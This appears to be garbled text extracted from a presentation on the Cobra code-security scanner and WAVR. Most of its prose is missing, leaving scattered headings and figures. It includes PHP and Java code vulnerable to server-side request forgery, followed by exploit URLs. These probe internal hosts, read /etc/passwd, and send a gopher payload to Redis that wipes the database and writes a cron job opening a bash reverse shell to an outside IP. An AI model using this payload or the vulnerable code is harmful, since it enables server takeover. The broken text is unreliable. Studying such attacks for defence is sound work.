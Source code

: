 
 <feei@feei.cn>

Feei
   Cobra  Web   &


       



# index.php function request($url) {
$ch = curl_init(); curl_setopt($ch, CURLOPT_URL, $url); curl_setopt($ch, CURLOPT_HEADER, 0); curl_exec($ch); curl_close($ch); } $url = $_GET[`url']; request($url);

# index.java import java.net.URL;
String url = request.getParameter("url"); u = new URL(url); inputStream = u.openStream(); outputStream = response.getOutputStream();


Web
http://127.0.0.1/index?url=http://10.11.12.13:80


Web
http://127.0.0.1/index?url=dict://10.11.12.13:6379



http://127.0.0.1/index?url=file:///etc/passwd



http://127.0.0.1/index?url=?url=gopher%3A%2F%2F10.15.2.232%3A6379%2F_%2A1%250d%250a%248%250d%2 50aflushall%250d%250a%2A3%250d%250a%243%250d%250aset%250d%250a%241%250d%250a1%250d%250a%2464%2
50d%250a%250d%250a%250a%250a%2A%2F1%20%2A%20%2A%20%2A%20%2A%20bash%20i%20%3E%26%20%2Fdev%2Ftcp%2F103.21.140.84%2F6789%200%3E%261%250a%250a%250a%250a%250a%250d%250a %250d%250a%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%24 3%250d%250adir%250d%250a%2416%250d%250a%2Fvar%2Fspool%2Fcron%2F%250d%250a%2A4%250d%250a%246%25 0d%250aconfig%250d%250a%243%250d%250aset%250d%250a%2410%250d%250adbfilename%250d%250a%244%250d
%250aroot%250d%250a%2A1%250d%250a%244%250d%250asave%250d%250aquit%250d%250a



A. 
1.  2.  3.  4. 

B. 
1.  2.  3.  4. 


       




1.  2.  3. / 4. 

Cobra - 
         
https://github.com/wufeifei/cobra

Deploy()

(Rescan)
 
(Fixed)
-  - 




Deploy


Trigger



Cobra 

Rescan Automation Scan


Fixed


Report

(Trigger)
- Web - Git -  - 
(Scan)
 
(Report)
 






JavaNodeJSPythonGo



 










A.  B.  C. 



2700 765 3.5 2.7/ 

34000 2000

WAVR - Web





 


 


 


 


 

https://github.com/wufeifei/WAVR

WAVR

WAVR - Web

WAVR - Web

WAVR - Web

WAVR - Web

WAVR - Web

WAVR - Web


       /


     Cobra5%  

